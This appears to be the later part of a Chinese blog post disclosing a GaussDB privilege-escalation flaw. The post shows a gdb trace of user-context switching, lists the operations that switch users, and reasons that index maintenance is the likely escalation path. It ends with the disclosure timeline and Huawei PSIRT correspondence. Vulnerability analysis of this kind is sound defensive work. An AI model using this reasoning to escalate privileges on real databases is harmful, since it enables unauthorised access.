GenericMemoryAllocator::mmgr_memory_set_controller_create (parent=0x7ff850a80000, name=0x55e1a5ab7b5b "TransactionAbortContext", minContextSize=32768, initBlockSize=32768, maxBlockSize=32768, maxSize=0, isShared=false, isSession=false) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/framework/system/memory/memctrl/framework_memory_memctrl_allocator.cpp:412
412 in /usr1/GaussDBKernel/server/opengauss/src/gausskernel/framework/system/memory/memctrl/framework_memory_memctrl_allocator.cpp
(gdb) info locals
context = <optimized out>
type = <optimized out>
is_tracked = <optimized out>
value = <optimized out>
func = <optimized out>
freeListIndex = <optimized out>
__func__ = "mmgr_memory_set_controller_create"
(gdb) s
[LWP 109104 exited]
[LWP 109102 exited]
[New LWP 109112]
414 in /usr1/GaussDBKernel/server/opengauss/src/gausskernel/framework/system/memory/memctrl/framework_memory_memctrl_allocator.cpp
(gdb) s
422 in /usr1/GaussDBKernel/server/opengauss/src/gausskernel/framework/system/memory/memctrl/framework_memory_memctrl_allocator.cpp
(gdb) s
416 in /usr1/GaussDBKernel/server/opengauss/src/gausskernel/framework/system/memory/memctrl/framework_memory_memctrl_allocator.cpp
(gdb) s
414 in /usr1/GaussDBKernel/server/opengauss/src/gausskernel/framework/system/memory/memctrl/framework_memory_memctrl_allocator.cpp
(gdb) s
422 in /usr1/GaussDBKernel/server/opengauss/src/gausskernel/framework/system/memory/memctrl/framework_memory_memctrl_allocator.cpp
(gdb) s
423 in /usr1/GaussDBKernel/server/opengauss/src/gausskernel/framework/system/memory/memctrl/framework_memory_memctrl_allocator.cpp
(gdb) s
[LWP 109112 exited]
[New LWP 109115]
428 in /usr1/GaussDBKernel/server/opengauss/src/gausskernel/framework/system/memory/memctrl/framework_memory_memctrl_allocator.cpp
(gdb) s
429 in /usr1/GaussDBKernel/server/opengauss/src/gausskernel/framework/system/memory/memctrl/framework_memory_memctrl_allocator.cpp
(gdb) s
428 in /usr1/GaussDBKernel/server/opengauss/src/gausskernel/framework/system/memory/memctrl/framework_memory_memctrl_allocator.cpp
(gdb) s
429 in /usr1/GaussDBKernel/server/opengauss/src/gausskernel/framework/system/memory/memctrl/framework_memory_memctrl_allocator.cpp
(gdb) s
[LWP 109115 exited]
430 in /usr1/GaussDBKernel/server/opengauss/src/gausskernel/framework/system/memory/memctrl/framework_memory_memctrl_allocator.cpp
(gdb) s
433 in /usr1/GaussDBKernel/server/opengauss/src/gausskernel/framework/system/memory/memctrl/framework_memory_memctrl_allocator.cpp
(gdb) s
[LWP 109108 exited]
[New LWP 109117]
460 in /usr1/GaussDBKernel/server/opengauss/src/gausskernel/framework/system/memory/memctrl/framework_memory_memctrl_allocator.cpp
(gdb) s
mmgr_memory_controller_crteate (tag=T_AllocSetContext, size=328, parent=0x7ff850a80000, name=0x55e1a5ab7b5b "TransactionAbortContext", file=0x55e1a57c3398 "framework_memory_memctrl_allocator.cpp", line=461, freelistindex=-1) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/framework/system/memory/memctrl/framework_memory_memctrl_controller.cpp:778
778 /usr1/GaussDBKernel/server/opengauss/src/gausskernel/framework/system/memory/memctrl/framework_memory_memctrl_controller.cpp: No such file or directory.
(gdb) info locals
node = <optimized out>
needed = <optimized out>
root = <optimized out>
rc = <optimized out>
__func__ = "mmgr_memory_controller_crteate"
(gdb) s
[New LWP 109120]
781 in /usr1/GaussDBKernel/server/opengauss/src/gausskernel/framework/system/memory/memctrl/framework_memory_memctrl_controller.cpp
(gdb) s
782 in /usr1/GaussDBKernel/server/opengauss/src/gausskernel/framework/system/memory/memctrl/framework_memory_memctrl_controller.cpp
(gdb) s
786 in /usr1/GaussDBKernel/server/opengauss/src/gausskernel/framework/system/memory/memctrl/framework_memory_memctrl_controller.cpp
(gdb) s
mmgr_choose_root_controller (parent=0x7ff850a80000, tag=T_AllocSetContext) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/framework/system/memory/memctrl/framework_memory_memctrl_controller.cpp:694
694 in /usr1/GaussDBKernel/server/opengauss/src/gausskernel/framework/system/memory/memctrl/framework_memory_memctrl_controller.cpp
(gdb) s
696 in /usr1/GaussDBKernel/server/opengauss/src/gausskernel/framework/system/memory/memctrl/framework_memory_memctrl_controller.cpp
(gdb) s
697 in /usr1/GaussDBKernel/server/opengauss/src/gausskernel/framework/system/memory/memctrl/framework_memory_memctrl_controller.cpp
(gdb) s
mmgr_memory_controller_crteate (tag=T_AllocSetContext, size=328, parent=0x7ff850a80000, name=0x55e1a5ab7b5b "TransactionAbortContext", file=0x55e1a57c3398 "framework_memory_memctrl_allocator.cpp", line=461, freelistindex=-1) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/framework/system/memory/memctrl/framework_memory_memctrl_controller.cpp:786
786 in /usr1/GaussDBKernel/server/opengauss/src/gausskernel/framework/system/memory/memctrl/framework_memory_memctrl_controller.cpp
(gdb) s
mmgr_choose_root_controller (parent=0x7ff850a80000, tag=T_AllocSetContext) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/framework/system/memory/memctrl/framework_memory_memctrl_controller.cpp:699
699 in /usr1/GaussDBKernel/server/opengauss/src/gausskernel/framework/system/memory/memctrl/framework_memory_memctrl_controller.cpp
(gdb) s
mmgr_memory_controller_crteate (tag=T_AllocSetContext, size=328, parent=0x7ff850a80000, name=0x55e1a5ab7b5b "TransactionAbortContext", file=0x55e1a57c3398 "framework_memory_memctrl_allocator.cpp", line=461, freelistindex=-1) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/framework/system/memory/memctrl/framework_memory_memctrl_controller.cpp:786
786 in /usr1/GaussDBKernel/server/opengauss/src/gausskernel/framework/system/memory/memctrl/framework_memory_memctrl_controller.cpp
(gdb) s
mmgr_choose_root_controller (parent=0x7ff850a80000, tag=T_AllocSetContext) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/framework/system/memory/memctrl/framework_memory_memctrl_controller.cpp:703
703 in /usr1/GaussDBKernel/server/opengauss/src/gausskernel/framework/system/memory/memctrl/framework_memory_memctrl_controller.cpp
(gdb) s
[Switching to LWP 109117]
Thread 110 "AVCworker" hit Breakpoint 5, set_userid_and_sec_context (userid=16728, sec_context=2) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/share/init/miscinit.cpp:738
738 /usr1/GaussDBKernel/server/opengauss/src/auxiliary/share/init/miscinit.cpp: No such file or directory.
(gdb) s
737 in /usr1/GaussDBKernel/server/opengauss/src/auxiliary/share/init/miscinit.cpp
(gdb) cc
Undefined command: "cc". Try "help".
(gdb) c
Continuing.
Thread 110 "AVCworker" hit Breakpoint 5, set_userid_and_sec_context (userid=10, sec_context=0) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/share/init/miscinit.cpp:738
738 in /usr1/GaussDBKernel/server/opengauss/src/auxiliary/share/init/miscinit.cpp
(gdb) c
Continuing.
[LWP 109117 exited]
[New LWP 109129]
[LWP 109120 exited]
[Switching to LWP 92744]
Thread 22 "TPLworker" hit Breakpoint 5, set_userid_and_sec_context (userid=userid@entry=143100, sec_context=1) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/share/init/miscinit.cpp:738
738 in /usr1/GaussDBKernel/server/opengauss/src/auxiliary/share/init/miscinit.cpp
(gdb) bt
#0 set_userid_and_sec_context (userid=userid@entry=143100, sec_context=1) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/share/init/miscinit.cpp:738
#1 0x000055e1a1d59a11 in sqlcmd_create_role (stmt=0x7ff848998e08) at /usr1/GaussDBKernel/server/opengauss/src/compatibility/sql_adaptor/commands/user_cmds.cpp:1241
#2 0x000055e1a1fb92a7 in sqlcmd_standard_process_utility (parse_tree=0x7ff848998e08, query_string=0x7ff848998050 "create user user_admin1 password 'Gaussdb@123' sysadmin;", params=0x0, is_top_level=true, dest=0x7ff848998f18, sent_to_remote=<optimized out>, completion_tag=0x7ff85a14a260 "", isCTAS=false) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/tcop/utility.cpp:8305
#3 0x00007ff9cebd6759 in gsaudit_ProcessUtility_hook (parsetree=0x7ff848998e08, queryString=0x7ff848998050 "create user user_admin1 password 'Gaussdb@123' sysadmin;", params=0x0, isTopLevel=<optimized out>, dest=0x7ff848998f18, sentToRemote=<optimized out>, completionTag=0x7ff85a14a260 "", isCTAS=false) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/security/security_plugin/security_policy_plugin.cpp:856
#4 0x000055e1a2529f52 in audit_process_utility (parsetree=0x7ff848998e08, query_string=0x7ff848998050 "create user user_admin1 password 'Gaussdb@123' sysadmin;", params=<optimized out>, is_top_level=<optimized out>, dest=<optimized out>, sent_to_remote=<optimized out>, completion_tag=0x7ff85a14a260 "", is_ctas=false) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/security/audit/security_auditfuncs.cpp:1512
#5 0x000055e1a1fc571d in sqlcmd_process_utility (parse_tree=0x7ff848998e08, query_string=0x7ff848998050 "create user user_admin1 password 'Gaussdb@123' sysadmin;", params=0x0, is_top_level=<optimized out>, dest=<optimized out>, sent_to_remote=<optimized out>, completion_tag=0x7ff85a14a260 "", isCTAS=false) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/tcop/utility.cpp:1974
#6 0x000055e1a1fa683f in PortalRunUtility (portal=0x7ff785af0050, utilityStmt=0x7ff848998e08, isTopLevel=true, dest=0x7ff848998f18, completionTag=0x7ff85a14a260 "") at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/tcop/pquery.cpp:2140
#7 0x000055e1a1fa80be in PortalRunMulti (portal=0x7ff785af0050, isTopLevel=true, dest=0x7ff848998f18, altdest=0x7ff848998f18, completionTag=0x7ff85a14a260 "", snapshot=0x0, bii_state=0x0) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/tcop/pquery.cpp:2326
#8 0x000055e1a1fac2dc in PortalRun (portal=0x7ff785af0050, count=9223372036854775807, isTopLevel=true, dest=0x7ff848998f18, altdest=0x7ff848998f18, completionTag=0x7ff85a14a260 "", snapshot=0x0, bii_state=0x0) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/tcop/pquery.cpp:1501
#9 0x000055e1a1f92276 in exec_simple_query (query_string=<optimized out>, msg=0x7ff85a14a530, messageType=QUERY_MESSAGE) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/tcop/postgres.cpp:3513
#10 0x000055e1a1f9ee38 in gs_process_command (firstchar=<optimized out>, input_message=0x7ff85a14a530, send_ready_for_query=0x7ff85a14a526) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/tcop/postgres.cpp:11743
#11 0x000055e1a1fa49c0 in PostgresMain (argc=<optimized out>, argv=0x7ff850c75b20, dbname=<optimized out>, username=<optimized out>) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/tcop/postgres.cpp:11313
#12 0x000055e1a1f282df in backend_run (port=0x7ff85a14a890) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/postmaster/postmaster.cpp:12482
#13 0x000055e1a1f671b0 in gauss_db_worker_thread_main<(knl_thread_role)2> (arg=<optimized out>) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/postmaster/postmaster.cpp:19086
#14 0x000055e1a1f2839a in internal_thread_func (args=<optimized out>) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/postmaster/postmaster.cpp:20196
#15 0x00007ff9cefa2f1b in ?? () from /usr/lib64/libpthread.so.0
#16 0x00007ff9ceeda320 in clone () from /usr/lib64/libc.so.6
(gdb)
可以看到问题场景下，xact_event_action_abort_subtrans里没有再执行 set_userid_and_sec_context ，而且这里的确有个not_reset_user的本地变量，从字面意义上来看，应该表示是否要重置用户，不过由于优化掉了，看不到里面的值。
只能说这个设计太粗暴了， 重建索引本身并不属于PLSQL语句，因此不应该使用plsql_rollback_keep_user的逻辑，但由于重建索引是在问题场景中是通过PLSQL语言调用的，导致走到了plsql_rollback_keep_user的逻辑。
参考openGauss源码，可以发现在以下几种行为中存在切换用户的情况：
- 执行索引操作
- 调用触发器
- 使用安全函数( SECURITY DEFINER | AUTHID DEFINER)
- 执行analyze
- 执行cluster
- 刷新物化视图
- 使用hold游标
- 创建schema
- 创建role
- 执行vacuum
- 访问函数索引
分析可能的空库构造提权的场景：
- 其中索引操作是最容易构造出报错的，但至少需要有操作一个索引的权限；
- 或者使用撑满内存的方式来使后续某个会切换用户的操作报错，但在一个内存使用动态变化的系统中很难去计算需要使用多少内存才能刚好在下一个指令中由于内存不足报错；
- 数据库里自带了4个安全函数，代码逻辑本身也不可能会报错；
- 尝试用对象锁超时的方式来报错也是不行的，似乎锁判断是在切换用户之前；
- 其他几个create schema/role这种权限普通用户也不会有；
- 数据库也没有自带触发器和物化视图。
因此攻击者很可能通过索引维护来进行提权。
漏洞起因
我支持的一个客户在使用GaussDB超级用户进行一个维护操作时，突然报错权限不足，后续查一些系统视图都没权限了，select user发现当前用户已不再是超级用户,导致了权限降级，重新登录就恢复了。从表象上看本身是不构成安全风险的，但是如果把两个用户对调，就会出现越权的情况，所以我很容易就构造出了这个场景。
漏洞编号
已上报国家信息安全漏洞公共平台，漏洞编号 CNVD-C-2025-549331 ，创建日期 2025-09-23 ，被拒
您好！感谢您对CNVD的支持，通用型漏洞需要提供互联网案例或者是本地代码审计证明其通用性（包括跟进函数和调试代码过程），如果提供互联网案例请提供至少3个以上验证成功漏洞案例（包括漏洞URL、截图、步骤等详细信息），以便CNVD及时验证并处置谢谢！
没开源、普通用户无法下载、没有公开的访问服务，怎么可能提供这些信息，我都已经提供复现代码和截图演示了，都不给过，我总不可能去华为云上买一个GaussDB服务用来演示吧。
所以我又上报了华为安全奖励计划，编号 HWSA25-084897515 ，提交时间 2025/09/25 14:47:36 ，该漏洞已被华为认可为中危漏洞。
关于漏洞修复
截止到20251010，从华为官方获知，该问题在505.2版本的后续补丁版本中已经修复（本人无该安装介质，无法进行确认），但是506.0版本的修复补丁需要到2025年12月份才能发布。
为什么我一直没公开这个漏洞
五、知识产权和保密
您提交给我们的关于华为的所有漏洞相关信息均负有严格的保密义务，未经我们书面确认，禁止向任何第三方披露，除非华为已经公开披露或者法律要求您进行披露。在相关漏洞被修复后，您可以参与关于该漏洞的讨论，在华为通知您漏洞修复前，请不要以任何形式讨论漏洞。如果您想在漏洞修复后想通过博客、公开演讲、白皮书或其他媒体等方式讨论漏洞，请联系华为。我们建议在华为对您提交的漏洞修复30天后再进行公开讨论。
所以我发了个邮件申请，但华为回应是否定的。
发件人：darkathena darkathena@qq.com
发送时间：2025年11月17日 08:56
收件人：PSIRT@huawei.com
主题：关于对漏洞的HWSA25-084897515公开讨论申请PSIRT:
我是一名技术博客博主，个人发现并定位了漏洞 HWSA25-084897515，期望能被授权公开讨论，包括技术会议演讲以及发表技术分享文章，目的在于通过描述漏洞定位的过程，使更多DBA能具备GaussDB的问题诊断能力，节省问题的定位时间。望批准。
发件人：Huawei PSIRT PSIRT@huawei.com
收件人：darkathena darkathena@qq.com
时间：2025年11月18日 (周二) 15:24
主题：re//HWNO-****/关于对漏洞的HWSA25-084897515公开讨论申请您好，
当前漏洞还在修补中，基于减少伤害和降低风险的原则，在漏洞修复之前，希望不对该漏洞问题的技术细节进行公开讨论。
祝好，
华为 PSIRT
为什么我现在又公开了呢？
距离我把本漏洞提报给华为，已经过去快一年了，期间我也测试过了，在GaussDB 505.2.1SPC0800/506.0.0SPC0500/GaussDB 507版本上均已修复。华为邮件里只说了漏洞修复之前不要公开讨论，我就当修复后可以公开讨论了。
而且近期在客户测试环境中（506.0.0SPC0500），发现一起新的由于内存不足导致的用户还原异常的情况，命中了我之前对该问题衍生情况的猜测--“使用撑满内存的方式来使后续某个会切换用户的操作报错”。但由于难以复现，该问题没有上报给华为。这是新的原因导致的提权，后续我会尝试写文章做一些分析，但因为没有源码也无法复现，到时候写出来的东西也仅供参考了。
本次漏洞的整个分析过程，能让数据库运维及开发人员了解到数据库在必要情况下会存在自动切用户的情况，以及自动切换用户的一些场景，这样后续遇到类似突然权限被放大或者缩小，或者search_path自动变了导致找不到对象的情况，就多了一个分析方向，这是我公开这个漏洞最重要的原因。
另一方面，当时诊断和复现以及gdb定位，由于没有GaussDB源码，而且也没使用AI，单步调试起来非常麻烦，一不小心就按过了，把整个关键链路梳理出来还是花了不少功夫的，所以本文公开调试流程也是给以后的DBA提供一种问题诊断的方式。